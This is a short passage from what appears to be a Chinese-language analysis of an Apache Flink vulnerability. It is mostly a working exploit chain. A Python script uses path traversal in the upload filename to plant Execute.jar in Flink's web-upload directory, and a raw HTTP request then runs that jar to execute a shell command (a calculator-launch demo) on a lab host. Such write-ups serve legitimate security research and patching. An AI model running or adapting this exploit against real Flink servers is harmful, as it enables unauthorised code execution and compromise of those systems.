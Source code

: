 ![Untitled](Apache%20Flink%20%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%207d976a56676d4f50a5cb19ea74e8f299/Untitled%202.png)

- 利用漏洞上传`jar`包，构造请求数据包，上传`jar`包至目录`/var/folders/ch/d7lw4k6j2dn0sc9hnjnlzrg40000gp/T/flink-web-c9f4b5d7-3d33-42b1-8d8f-fa510a7c3d32/flink-web-upload`下

```python
import requests
url = 'http://192.168.10.32:8081/jars/upload'

files = {
    'file': ('../../../../../../../../../../../../../../../../../../var/folders/ch/d7lw4k6j2dn0sc9hnjnlzrg40000gp/T/flink-web-c9f4b5d7-3d33-42b1-8d8f-fa510a7c3d32/flink-web-upload/Execute.jar', open(r'Execute.jar','rb'), 'form-data;name="jarfile"')
}

r = requests.post(url, files=files)
print(r.text)
```

- 利用上传的`jar`来执行命令。

```html
POST /jars/Execute.jar/run?entry-class=Execute&program-args=%22open%20-a%20Calculator%22 HTTP/1.1
Host: 192.168.10.32:8081
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
```
